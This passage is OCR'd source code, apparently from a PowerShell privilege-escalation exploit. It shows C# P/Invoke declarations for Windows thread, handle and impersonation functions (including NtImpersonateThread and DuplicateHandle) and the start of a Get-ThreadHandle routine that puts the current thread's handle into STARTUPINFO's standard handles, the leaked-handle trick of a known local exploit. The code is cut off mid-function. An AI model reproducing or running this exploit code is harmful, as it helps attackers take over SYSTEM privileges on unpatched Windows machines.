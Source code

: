 		[DllImport("kernel32.dll", SetLastError=true)]
		public static extern IntPtr GetCurrentProcess();
	
		[DllImport("kernel32.dll", SetLastError=true)]
		public static extern IntPtr GetCurrentThread();
		
		[DllImport("kernel32.dll", SetLastError=true)]
		public static extern int GetThreadId(IntPtr hThread);
		
		[DllImport("kernel32.dll", SetLastError = true)]
		public static extern int GetProcessIdOfThread(IntPtr handle);
		
		[DllImport("kernel32.dll",SetLastError=true)]
		public static extern int SuspendThread(IntPtr hThread);
		
		[DllImport("kernel32.dll",SetLastError=true)]
		public static extern int ResumeThread(IntPtr hThread);
		
		[DllImport("kernel32.dll", SetLastError=true)]
		public static extern bool TerminateProcess(
			IntPtr hProcess,
			uint uExitCode);
	
		[DllImport("kernel32.dll", SetLastError=true)]
		public static extern bool CloseHandle(IntPtr hObject);
		
		[DllImport("kernel32.dll", SetLastError=true)]
		public static extern bool DuplicateHandle(
			IntPtr hSourceProcessHandle,
			IntPtr hSourceHandle,
			IntPtr hTargetProcessHandle,
			ref IntPtr lpTargetHandle,
			int dwDesiredAccess,
			bool bInheritHandle,
			int dwOptions);
	}
	
	public static class Ntdll
	{
		[DllImport("ntdll.dll", SetLastError=true)]
		public static extern int NtImpersonateThread(
			IntPtr ThreadHandle,
			IntPtr ThreadToImpersonate,
			ref SQOS SecurityQualityOfService);
	}
"@
	
	function Get-ThreadHandle {
		# StartupInfo Struct
		$StartupInfo = New-Object STARTUPINFO
		$StartupInfo.dwFlags = 0x00000100 # STARTF_USESTDHANDLES
		$StartupInfo.hStdInput = [Kernel32]::GetCurrentThread()
		$StartupInfo.hStdOutput = [Kernel32]::GetCurrentThread()
		$StartupInfo.hStdError = [Kernel32]::GetCurrentThread()
		$StartupInfo.cb = [System.Runtime.InteropServices.Marshal]::SizeOf($StartupInfo) # Struct Size
		